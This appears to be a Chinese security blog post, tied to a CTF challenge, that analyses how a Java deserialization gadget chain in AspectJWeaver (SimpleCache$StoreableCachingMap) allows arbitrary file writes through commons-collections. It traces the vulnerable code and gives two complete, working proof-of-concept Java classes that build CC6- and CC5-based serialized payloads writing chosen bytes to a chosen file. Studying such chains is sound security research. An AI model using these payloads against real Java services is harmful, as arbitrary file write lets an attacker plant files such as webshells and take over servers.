


---
title: "Aspectjweaver反序列化至任意文件写入"
date: 2026-02-28T11:36:00+08:00
summary: "Aspectjweaver反序列化"
url: "/posts/Java反序列化之Aspectjweaver反序列化至任意文件写入/"
categories:
  - "javasec"
tags:
  - "javasec"
draft: false
---

# 前言

其实这个之前就做过了，在PolarCTF的《一写一个不吱声》这道题中就是专门介绍了Aspectjweaver导致任意文件写入的问题，不过这里的话主要是想整合一下学过的链子看看如何触发Aspectjweaver的任意文件写入

# 介绍一下

AspectJWeaver 是 AspectJ 框架里的一个核心组件，用于实现 **AOP（面向切面编程）**的字节码织入功能。它是一个 Java 代理/库，能够将"切面"（Aspect）代码自动插入到目标类的字节码中，让你在不修改原有业务代码的情况下，添加横切关注点（如日志、事务、权限检查等）。

# 依赖

先导入AspectJWeaver的依赖

```xml
<dependency>
    <groupId>org.aspectj</groupId>
    <artifactId>aspectjweaver</artifactId>
    <version>1.9.2</version>
</dependency>
```

另外还需要导入CC的依赖，我这里是commons-collections3.2.1

# 链子分析

首先看看AspectJWeaver导致任意文件写入的地方

## SimpleCache$StoreableCachingMap#put()

来到`org.aspectj.weaver.tools.cache.SimpleCache`中内部类`StoreableCachingMap` 的 put 函数

```java
		private static class StoreableCachingMap extends HashMap{ 
            
        private static final String SAME_BYTES_STRING = "IDEM";
		private static final byte[] SAME_BYTES = SAME_BYTES_STRING.getBytes();

		@Override
		public Object put(Object key, Object value) {
			try {
				String path = null;
				byte[] valueBytes = (byte[]) value;
				
				if (Arrays.equals(valueBytes, SAME_BYTES)) {
					path = SAME_BYTES_STRING;
				} else {
					path = writeToPath((String) key, valueBytes);
				}
				Object result = super.put(key, path);
				storeMap();
				return result;
			} catch (IOException e) {
				trace.error("Error inserting in cache: key:"+key.toString() + "; value:"+value.toString(), e);
				Dump.dumpWithException(e);
			}
			return null;
		}
```

可以看到这个类是继承了HashMap类的，并且内部重写了put方法

这段代码主要是会将键值对添加到映射中，会检查value字节数组中是否有SAME_BYTES标记，这个标记表示是否是重复的字节数据。

随后根据这个标记去确定写入文件的路径是"IDEM"还是通过writeToPath函数把字节数据写入磁盘，并返回文件路径

最终会将键和文件路径写入一个HashMap对象中添加映射，并调用storeMap方法将映射数据存储到持久化存储中，最后返回result

我们跟进writeToPath看看

```java
		private String writeToPath(String key, byte[] bytes) throws IOException {
			String fullPath = folder + File.separator + key;
			FileOutputStream fos = new FileOutputStream(fullPath);
			fos.write(bytes);
			fos.flush();
			fos.close();
			return fullPath;
		}
```

就是一个将字节数据写入文件的操作，fullPath是将缓存目录和key文件名拼接后的最终文件路径，关键点就在于这里是拼接且无过滤的

可以看看folder是如何赋值的



构造函数中有folder的赋值

然后如何触发这里的put方法呢？想必这个就有很多方法了，最常见的就是LazyMap#get方法

LazyMap#get()触发put

```java
    public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
```

这里的value文件内容由factory.transform方法返回，我们可以用之前CC1讲过的ConstantTransformer去操作

```java
public ConstantTransformer(Object constantToReturn) {
	super();
	iConstant = constantToReturn;
}
public Object transform(Object input) {
	return iConstant;
}
```

至于如何触发LazyMap#get方法，CC6和CC5就有讲过了

# CC6触发链

```java
HashMap#readObject()->
    HashMap#hash()->
    	TiedMapEntry#hashCode()->
    	TiedMapEntry#getvalue()->
    		LazyMap#get()->
    			SimpleCache$StoreableCachingMap#put()
```

# CC6+AspectJWeaver POC

```java
package SerializeChains.AspectJWeaverPOC;

import SerializeChains.Gedget.Gadgets;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.lang.reflect.Constructor;
import java.nio.charset.StandardCharsets;
import java.util.HashMap;
import java.util.Map;

public class AspectJWeaver_CC6 {
    public static void main(String[] args) throws Exception {
        //获取一个StoreableCachingMap实例
        Class c = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Constructor ctor = c.getDeclaredConstructor(String.class, int.class);
        ctor.setAccessible(true);
        HashMap storeableCachingMap = (HashMap) ctor.newInstance("E:\\java\\JavaSec\\JavaSerialize",1);//第一个是文件夹，第二个任意数字即可


        //构造文件内容通过 ConstantTransformer.transform返回
        ConstantTransformer constantTransformer = new ConstantTransformer("wanth3f1ag".getBytes(StandardCharsets.UTF_8));//由于文件内容value需要为字节数组，所以需要转化一下

        //生成LazyMap对象并传给TiedMapEntry
        Map<Object,Object> lazyMap = LazyMap.decorate(storeableCachingMap,constantTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"2.txt");

        //put放入readObject中的key，其中也会触发hashCode
        HashMap<Object,Object> hashmap = new HashMap<>();
        hashmap.put(tiedMapEntry, "3");

        Gadgets.serialize(hashmap,"AspectJWeaver_CC6.txt");
        Gadgets.unserialize("AspectJWeaver_CC6.txt");
    }
}
```



# CC5触发链

```java
BadAttributeValueExpException#readObject()->
    TiedMapEntry#toString()->
    TiedMapEntry#getvalue()->
        LazyMap#get()->
            SimpleCache$StoreableCachingMap#put()
```

# CC5+AspectJWeaver POC

```java
package SerializeChains.AspectJWeaverPOC;

import SerializeChains.Gedget.Gadgets;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.charset.StandardCharsets;
import java.util.HashMap;
import java.util.Map;

public class AspectJWeaver_CC5 {
    public static void main(String[] args) throws Exception {
        //获取一个StoreableCachingMap实例
        Class c = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Constructor ctor = c.getDeclaredConstructor(String.class, int.class);
        ctor.setAccessible(true);
        HashMap storeableCachingMap = (HashMap) ctor.newInstance("E:\\java\\JavaSec\\JavaSerialize",1);//第一个是文件夹，第二个任意数字即可

        //构造文件内容通过 ConstantTransformer.transform返回
        ConstantTransformer constantTransformer = new ConstantTransformer("wanth3f1ag".getBytes(StandardCharsets.UTF_8));//由于文件内容value需要为字节数组，所以需要转化一下


        //生成LazyMap对象并传给TiedMapEntry
        Map<Object,Object> lazyMap = LazyMap.decorate(storeableCachingMap,constantTransformer);

        //CC5的开头
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"1.txt");

        //BadAttributeValueExpException触发toString
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        //反射修改val为tiedMapEntry
        Gadgets.setFieldValue(badAttributeValueExpException,"val",tiedMapEntry);

        //序列化和反序列化
        Gadgets.serialize(badAttributeValueExpException,"AspectJWeaver_CC5.txt");
        Gadgets.unserialize("AspectJWeaver_CC5.txt");
    }
}
```

参考文章：https://infernity.top/2025/03/24/Aspectjweaver%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/
